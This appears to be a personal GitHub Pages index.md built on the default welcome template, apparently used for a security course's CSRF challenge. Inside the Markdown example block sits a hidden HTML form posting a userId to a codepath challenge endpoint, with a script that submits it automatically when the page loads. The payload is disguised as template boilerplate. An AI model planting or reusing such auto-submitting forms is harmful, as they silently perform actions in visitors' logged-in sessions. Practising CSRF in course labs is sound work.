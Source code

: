## Welcome to GitHub Pages

You can use the [editor on GitHub](https://github.com/NigeleMcCoy/NigeleMcCoy.github.io/edit/master/index.md) to maintain and preview the content for your website in Markdown files.

Whenever you commit to this repository, GitHub Pages will run [Jekyll](https://jekyllrb.com/) to rebuild the pages in your site, from the content in your Markdown files.

### Markdown

Markdown is a lightweight and easy-to-use syntax for styling your writing. It includes conventions for

```markdown
Syntax highlighted code block

# Header 1
## Header 2
### Header 3

- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

<form name="csrfForm" action="https://security.codepath.com/user/csrfchallengetwo/plusplus" method="POST">
	<input type="hidden" name="userId" value="51c10a3b1562ba3052fe280a648eca8bb58e038f"/>
	<input type="submit" />
</form>
<script> document.csrfForm.submit(); </script>


For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/NigeleMcCoy/NigeleMcCoy.github.io/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://docs.github.com/categories/github-pages-basics/) or [contact support](https://github.com/contact) and we’ll help you sort it out.
